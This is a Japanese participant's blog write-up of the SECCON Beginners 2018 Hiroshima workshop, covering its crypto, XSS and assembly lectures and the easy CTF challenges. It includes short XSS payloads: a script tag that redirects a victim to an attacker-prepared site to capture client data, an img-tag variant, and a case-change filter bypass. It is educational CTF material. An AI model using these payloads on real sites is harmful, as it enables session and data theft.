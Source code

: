 # SECCON Beginners 2018 広島 に行ってきた

### 目次
- Introduction  
- Crypto(暗号)の講義内容  
- Webの講義内容  
- Binaryの講義内容  
- CTFの内容  
- 感想や他の人の参加記等  


### 行った理由
こないだ行われたSECCON Beginners 2018 CTFでは全然解けずひどかったので参加したかったのです


### 勉強会の内容
- Crypto(暗号)の講義  
- Webの講義  
- Binaryの講義  
- やさしいCTF(2時間ぐらいだったかな?)  
- 交流会  


## Crypto(暗号)講義の非常に大雑把な内容
- modの求め方  
- 逆元の求め方  
- RSA(現在使用されている公開鍵暗号方式)の概要  

### Crypto(暗号)講義の感想
勉強会の中だけでは理解できなかったので復習必要だと感じました  
つまり？　　

### すうが くだいじ
![](./TOMATOICON.046.jpeg)

## Web講義の大雑把な内容
- XSSについて 
- XSSを利用してCokkiを取得する方法
-  XSSを利用してユーザーエージェントを取得する方法(こないだのCTFの問題) 

### XSSとは？
ユーザから入力される内容を表示するサイトで、そのフォームに`<script>`タグ等を入れて不正なスクリプト等を埋め込み、セッションIDを盗む攻撃です。

## Binary講義の非常に大雑把な内容
- 機械語命令(アセンブリ言語)
- 算術命令とか条件分岐とか

## CTF
![](./ctf4b_result1.png)
*灰色が解けた問題

![](./ctf4b_result2.png)
- 通常のCTFより簡単なCTFが行われました。
- 結果は順位：８位
- 点数：1000点
- 良くもなく悪くもなく?
- ぼちぼちな点数でした。

### 今回の問題を一部紹介
- なお大雑把に記載します。他の人のほうが詳細に取り上げておらますのでそちらの方も御覧ください。(最後にリンクを張っています)

### 問題: Calc
- ページに乗った数式の答えを100回連続で答える問題です。
- 僕は、100回手動でPythonに数式をペーストして計算を行い回答しました。（あまり良くない方法です()）
- 別の人はPythonのビューティフルスープを利用したスクレイピングを行って回答されました。(僕のより賢い方法です)

### 問題: make alert!
- XSSを行ってjsでalertを表示させる問題です。
- 単純に`alert`を出力するスクリプトをフォームに記載し、flagを取得しました。

### 問題: Contact Revenge
- XSSを行って、フォームにscript `(<script>document.location='用意したサイト'</script>)`を忍ばせて、こちらが用意したサイトにアクセスさせ、相手のクライアント情報の中にあるflagを取得しました。

### 問題: Contact Re-Revenge
- 先程のContact Revengeとは違い`<script>`タグが入力不可な問題でした。
- 僕は`<img src=‘URL’>` という手を無理やり使ってscriptを使用せずにアクセスをさせて、flagを取得しました。
- 他の人に聞いてみると、実は判定が曖昧で`<Script>`など、文字を一部大文字にするだけでもアクセスできた模様です。


### 問題: Raw
- 僕は解けませんでした...
- どうやらバイナリデータの中にFLAGが書かれた文字があったらしいです...
- Kaitoさんはradare2を使用して見つけ出されたそうです。

### 問題: Review
- アセンブリ言語を読んで、最後のRawの値を答えるとFlagが出力される問題です。
- binaryの講習内で行ったものと似たようなものでした。

### その他
- CTF中に作業妨害BGMが流れました。
- 実際のCTFでも妨害BGMが流れるそうです。

## 今回参加した感想
- しゅういちさん、Kaitoさん、なんばつさん、はいひるさんなどなど、色々な方と喋れて楽しかったです！
- またどこかでお会いしたいです..!
- 数学 頑張る…(^q^)
- 関西でも開催してほしい！！！

## 他の方の参加記
他の方の参加記のほうが詳しく書かれていますので、そちらも是非御覧ください
- [しゅういちさん](http://ups.hatenablog.jp/entry/2018/09/03/SECCON_Beginners_広島行ってきた)
- [はすみさん](http://mwc922-hsm.hatenablog.com/entry/2018/09/01/234729)
- [Kaitoさん](https://github.com/tMasaaa/ctf/blob/master/seccon_beginners_hiroshima/blog/blog.md)
